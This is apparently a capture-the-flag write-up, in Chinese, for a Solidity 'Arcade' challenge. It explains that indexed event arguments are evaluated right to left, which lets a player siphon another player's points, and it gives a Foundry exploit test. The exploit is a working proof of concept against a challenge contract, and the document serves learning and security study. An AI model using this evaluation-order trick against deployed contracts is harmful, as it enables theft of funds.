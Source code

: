 漏洞点在 `changePlayer` 中 `emit PlayerChanged(_redeem(oldPlayer), _setNewPlayer(newPlayer));` 的求值顺序上，solidity 并没有规定需要以特定方式求值，对于 emit 调用，实现上 indexed 参数会从右向左求值，而其他参数会从左向右求值。因此这里会先 `_setNewPlayer`，再 `_redeem`，从而将新 player 的余额提取到旧 player 上。

只要先 earn 10 points，再从 player74 中获得 190 points 即可。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test} from "forge-std/Test.sol";
import {ArcadeBase, Arcade} from "src/Arcade/Arcade.sol";

contract ArcadeTest is Test {
    ArcadeBase public arcadeBase;
    Arcade public arcade;

    address public you;
    address public player1;
    address public player2;
    address public player3;
    address public player4;

    function setUp() external {
        you = makeAddr("You");
        uint256 startTime = block.timestamp + 60;
        uint256 endTime = startTime + 60;
        uint256 fullScore = 100;

        vm.startPrank(you);
        arcadeBase = new ArcadeBase(startTime, endTime, fullScore);
        arcadeBase.setup();
        vm.stopPrank();
        arcade = arcadeBase.arcade();

        player1 = arcadeBase.player1();
        player2 = arcadeBase.player2();
        player3 = arcadeBase.player3();
        player4 = arcadeBase.player4();
    }

    function testExploit() public {
        // vm.warp(10 minutes);
        vm.startPrank(you);
        arcade.earn();
        arcade.redeem();
        arcade.changePlayer(player4);
        arcadeBase.solve();
        assertTrue(arcadeBase.isSolved());
        vm.stopPrank();
    }
}
```

